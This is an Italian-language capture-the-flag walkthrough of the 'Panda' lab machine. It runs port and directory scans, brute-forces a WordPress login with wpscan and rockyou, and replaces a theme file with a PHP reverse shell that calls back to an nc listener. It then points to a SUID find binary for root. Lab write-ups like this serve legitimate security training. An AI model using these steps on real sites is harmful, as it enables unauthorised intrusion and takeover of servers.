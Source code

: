 # PANDA

partiamo con lo scan delle porte

### enum

```bash
nmap panda.thm -sV -sC 
```

ottimo abbiamo la porta 80 aperta quindi una pagina web andiamo a controllarla

nulla di interessante solo un immagine

facciamo una ricerca delle directory

```bash
gobuster dir -u http://panda.thm/ -w /usr/share/wordlists/dirb/big.txt
```

interessante abbiamo la directory con  /Wordpress

guardiamo cosa c'è
```bash
http://panda.thm/wordpress
```
se c'è un pagina wordpress c'è un login quasi il 99% delle volte se non il 100%

controlliamo 
```bash
http://panda.thm/wordpress/wp-login.php
```

eccola 

facciamo uno scan insieme al brute force con WPSCAN
```bash
wpscan --url http://panda.thm/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt
```

ecco qua il nostro utente po

accediamo alla pagina
## REVERSE SHELL

per chi avesse già esperienza con wordpress saltare questa spiegazione invece per chi non avesse mai visto questo CMS ci sono delle fasi che dovete imparare

wordpress lavora principalmente a pagine sotto pagine e temi molti di quest'ultimi sono vulnerabili perchè vanno ad aggiungere codice che potrebbe non essere controllato o che può avere insicurezze del codice 

quello che andrò a fare nei passaggi successivi userà un vulnerabilità del non controllo del codice 

su word press per andare a modificare i vari path del cms c'è un menu a tendina sulla destra. bene apritelo e andate nella sezione APPARENCE una volta fatto click vi si dovrebbe aprire un sotto menu con varie opzioni 
andate a selezionare editor e successivamente vi si apre un menu sulla pagina (sulla destra) andate in questo menu e selezionate la sezione comment.php
tramite questa sezione vi si apre un editor a schermo di questa pagina cancellate qualsiasi cosa ci sia scritta sopra in modo da rendere la pagina vuota e aggiungete una reverse shell (vi consiglio https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
ricardate di cambiare nel php questi valori 
```bash
$ip = '127.0.0.1';  // CHANGE THIS 
$port = 1234;       // CHANGE THIS
```
mettete il vostro ip e la vostra porta dove ascolterete il traffico 

ottimo salvate questa pagina con l'apposito tasto.


ottimo ora avviamo l'ascolto sulla nostra macchina
```bash
nc -lvnp porta scelta nel php
es. nc -lvnp 1234
```
ora tutto è pronto.

chiamiamo il nostro php tramite url (provate ad indovinare quale è l'url) (hint: ricardatevi dove avete salvato il php)

ecco qua che si avvia la nostra shell con l'utente shifu facciamo privesc
## PRIVESC

```bash
find / -perm -4000 2>/dev/null
```

interessante abbiamo una vulnerabilità di tipo suid su find controllate GTFO.BINS per avere i privilegi di root




